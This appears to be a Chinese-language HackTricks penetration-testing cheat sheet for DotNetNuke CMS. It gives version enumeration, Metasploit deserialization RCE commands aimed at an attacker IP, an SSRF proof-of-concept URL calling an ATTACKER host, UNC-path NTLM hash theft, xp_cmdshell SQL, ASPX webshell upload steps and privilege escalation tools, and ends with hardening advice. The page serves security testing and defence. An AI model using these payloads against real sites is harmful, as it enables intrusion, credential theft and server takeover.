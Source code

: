 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

如果您以 **administrator** 身份登录 DNN，获取 **RCE** 很容易，但在过去几年中发布了一些 *unauthenticated* 和 *post-auth* 技术。以下备忘单收集了用于攻防工作的最有用原语。

---
## 版本和环境枚举

* 检查 *X-DNN* HTTP 响应头 - 通常会披露确切的平台版本。
* 安装向导在 `/Install/Install.aspx?mode=install` 中泄露版本（在非常旧的安装中可访问）。
* `/API/PersonaBar/GetStatus` (9.x) 返回一个 JSON blob，包含低权限用户的 `"dnnVersion"`。
* 您将在实时实例中看到的典型 cookie：
* `.DOTNETNUKE` – ASP.NET 表单身份验证票证。
* `DNNPersonalization` – 包含 XML/序列化的用户配置文件数据（旧版本 - 见下文 RCE）。

---
## 未经身份验证的利用

### 1. Cookie 反序列化 RCE  (CVE-2017-9822 & 后续)
*受影响版本 ≤ 9.3.0-RC*

`DNNPersonalization` 在启用内置 404 处理程序时在每个请求中被反序列化。因此，精心制作的 XML 可能导致任意小工具链和代码执行。
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
该模块自动选择适用于已修补但仍然易受攻击的版本的正确路径（CVE-2018-15811/15812/18325/18326）。在7.x–9.1.x上，利用攻击**无需身份验证**，在9.2.x+上则需要一个*经过验证*的低权限账户。

### 2. 服务器端请求伪造 (CVE-2025-32372)
*受影响版本 < 9.13.8  –  补丁于2025年4月发布*

旧版`DnnImageHandler`修复的绕过使攻击者能够强迫服务器发出**任意GET请求**（半盲SSRF）。实际影响：

* 内部端口扫描/云部署中的元数据服务发现。
* 访问其他被防火墙保护的主机。

概念验证（替换`TARGET`和`ATTACKER`）：
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
请求在后台触发；监控您的监听器以获取回调。

### 3. NTLM 哈希暴露通过 UNC 重定向 (CVE-2025-52488)
*受影响版本 6.0.0 – 9.x (< 10.0.1)*

特别构造的内容可以使 DNN 尝试使用 **UNC 路径** 获取资源，例如 `\\attacker\share\img.png`。 Windows 将乐于进行 NTLM 协商，将服务器账户哈希泄露给攻击者。 升级到 **10.0.1** 或在防火墙上禁用出站 SMB。

### 4. IP 过滤器绕过 (CVE-2025-52487)
如果管理员依赖 *Host/IP 过滤器* 保护管理门户，请注意 **10.0.1** 之前的版本可以通过在反向代理场景中操纵 `X-Forwarded-For` 来绕过。

---
## 认证后到 RCE

### 通过 SQL 控制台
在 **`Settings → SQL`** 下，内置查询窗口允许对站点数据库执行操作。 在 Microsoft SQL Server 上，您可以启用 **`xp_cmdshell`** 并生成命令：
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### 通过ASPX Webshell上传
1. 转到 **`Settings → Security → More → More Security Settings`**。
2. 将 `aspx`（或 `asp`）附加到 **Allowable File Extensions** 并 **保存**。
3. 浏览到 **`/admin/file-management`** 并上传 `shell.aspx`。
4. 在 **`/Portals/0/shell.aspx`** 触发它。

---
## Windows上的权限提升
一旦以 **IIS AppPool\<Site>** 实现代码执行，常见的Windows权限提升技术适用。如果该系统存在漏洞，您可以利用：

* **PrintSpoofer** / **SpoolFool** 来滥用 *SeImpersonatePrivilege*。
* **Juicy/Sharp Potatoes** 来逃避 *Service Accounts*。

---
## 加固建议（蓝队）

* **升级** 至至少 **9.13.9**（修复SSRF绕过）或更好地 **10.0.1**（IP过滤和NTLM问题）。
* 安装后删除残留的 **`InstallWizard.aspx*`** 文件。
* 禁用出站SMB（端口445/139）流量。
* 在边缘代理上强制实施强大的 *Host Filters*，而不是在DNN内部。
* 如果未使用，阻止对 `/API/RemoteContentProxy` 的访问。



## 参考文献

* Metasploit `dnn_cookie_deserialization_rce` 模块文档 – 实用的未认证RCE细节（GitHub）。
* GitHub安全公告 GHSA-3f7v-qx94-666m – 2025 SSRF绕过和补丁信息。
{{#include ../../banners/hacktricks-training.md}}
